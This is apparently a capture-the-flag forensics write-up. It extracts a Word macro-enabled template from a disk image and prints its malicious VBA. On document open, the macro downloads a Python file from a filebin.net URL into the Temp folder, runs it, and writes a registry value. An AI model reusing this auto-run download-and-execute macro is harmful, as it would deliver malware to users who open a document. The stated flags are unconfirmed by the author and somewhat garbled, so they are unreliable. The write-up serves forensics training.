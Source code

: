 # schmerz-1

**Flag:** `flag{fA3bDt}`

Extracting the filesystem from the `.ad1` file and going into the `C:\Users\challenge\Downloads` directory, we find a `.dotm` file. Running `olevba` on it, we get this

```vb
.
.
.
Sub RegistryEntry()
    Dim keyName As String
    Dim data As String
    Dim path As String
    Dim myWS As Object
    Dim stype As String
    Set myWS = VBA.CreateObject("WScript.Shell")

    path = "HKEY_CURRENT_USER\Software\Uninstall\"
    keyName = "Application"
    keyValue = "fA3bDt"
    stype = "REG_SZ"
    myWS.RegWrite path & keyName, keyValue, stype
End Sub

Sub DownloadAndOpenFile()
.
.
.
```

The value of the registry entry stored by the malicious macro seems to be `fA3bDt`. I can't confirm if this is correct as I couldn't find a writeup, but it most likely should be.

# schmerz-2

**Flag:** `flag{python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py}"`

The same macro also shows this:

```vb
Sub Document_Open()
    DownloadAndOpenFile
    RegistryEntry
End Sub
.
.
.
Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
End Sub
```

So we can see the first command that seems to run upon the document opening is


```vb
vbpythonPath & " " & Chr(34) & destinationPath & Chr(34)
```

and when you replace all variables with their values,

```py
python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py}"
```

As with the previous one, I have no clue if this is the correct flag since I couldn't find a writeup, but it should be.
